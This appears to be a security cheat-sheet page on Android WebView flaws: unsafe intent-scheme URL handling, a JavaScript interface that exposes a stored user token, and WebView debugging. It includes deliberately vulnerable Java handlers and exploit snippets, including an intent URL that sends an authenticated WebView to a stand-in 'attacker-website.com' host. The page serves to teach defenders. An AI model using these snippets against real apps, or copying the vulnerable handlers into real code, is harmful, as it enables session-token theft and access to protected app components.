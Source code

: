 # WebView overview

[WebView](https://developer.android.com/reference/android/webkit/WebView) is a View that displays web pages. WebView objects display web content as part of an activity layout, but lack some of the features of fully-developed browsers.

# Security issues

## Access to arbitrary components

The Intent class allows developers to convert an intent to a string holding a URI representation of it with the [toUri(flags)](https://developer.android.com/reference/android/content/Intent#toUri(int)) method and create an intent from this URI with the [parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri(java.lang.String,%20int)) method. An app can use this to parse a URL with the `intent` scheme into intent and launch an activity while handling the URL within the WebView. If the handling is not implemented correctly, you can access arbitrary components of the app.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/android-application/intent#access-to-arbitrary-components" %}

Developers can override the [shouldOverrideUrlLoading()](https://developer.android.com/reference/android/webkit/WebViewClient#shouldOverrideUrlLoading(android.webkit.WebView,%20android.webkit.WebResourceRequest)) method of the WebViewClient class to handle all efforts to load a new link within WebView. The example of mishandling might look as follows:

```java
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if ("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}
```

This code adds a custom handler for URLs with the `intent` scheme that launch a new activity using the passed URL. You can exploit this mishandling by creating a WebView and redirecting it to a specially crafted `intent-scheme` URL:

```java
// Intent-scheme URL creation
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://attacker-website.com/");
String url = intent.toUri(Intent.URI_INTENT_SCHEME);
// "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end"
Log.d("evil", url);
```

```java
// AuthWebViewActivity
webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
```

```javascript
// Redirect within WebView
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fattacker-website.com%2F;end";
```

However, there are several restrictions:

- Intent embedded `Parcelable` and `Serializable` objects cannot be converted to string and these objects will be ignored.
- The [Intent.parseUri(stringUri, flags)](https://developer.android.com/reference/android/content/Intent#parseUri(java.lang.String,%20int)) ignores the [Intent.FLAG_GRANT_READ_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION) and [Intent.FLAG_GRANT_WRITE_URI_PERMISSION](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_WRITE_URI_PERMISSION) flags by default. The parser leaves them only if the [Intent.URI_ALLOW_UNSAFE](https://developer.android.com/reference/android/content/Intent#URI_ALLOW_UNSAFE) flag is set.

    ```java
    startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE)
    ```

## addJavascriptInterface

[addJavascriptInterface](https://developer.android.com/reference/android/webkit/WebView#addJavascriptInterface%28java.lang.Object,%20java.lang.String%29) method injects the supplied Java object into this WebView. The object is injected into all frames of the web page, including all the `iframes`, using the supplied name. This allows the Java object's methods to be accessed from JavaScript (the Java object's fields are not accessible).

This method can provide data to JavaScript or even allow JavaScript to controll the host application. For example, the following interface is leaking a user token:

```java
public class DefaultJavascriptInterface {
    Context context;

    public DefaultJavascriptInterface(Context c) {
        this.context = c;
    }

    @JavascriptInterface
    public getToken() {
        SharedPreferences sharedPref = context.getSharedPreferences(getString(
            R.string.preference_file_key), 
            Context.MODE_PRIVATE
        );
        return sharedPref.getString(getString(R.string.token_key), "")
    }
}
```

```java
public class DefaultActivity extends Activity {
    // ...

    public void loadWebView() {
        WebView webView = (WebView)findViewById(R.id.web_view);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.addJavascriptInterface(new DefaultJavascriptInterface(this), "DefaultJavascriptInterface")
        // ...
    }
}
```

```html
<script>
    alert("Token: " + DefaultJavascriptInterface.getToken());
</script>
```

## setWebContentsDebuggingEnabled

[setWebContentsDebuggingEnabled](https://developer.android.com/reference/android/webkit/WebView.html#setWebContentsDebuggingEnabled%28boolean%29) enables debugging of web contents (HTML/CSS/JavaScript) loaded into any WebViews of an application. This flag is used in order to facilitate debugging of web layouts and JavaScript code running inside WebViews.

{% hint style="info" %}
`WebContentsDebugging` is not affected by the state of the `debuggable` flag in the application's manifest. 
{% endhint %}

Enabling this flag allows you to execute arbitrary JavaScript code within any WebViews of an application.

References:
- [Remote debugging WebViews](https://developer.chrome.com/docs/devtools/remote-debugging/webviews/)

# References

- [Oversecured: Android Access to app protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
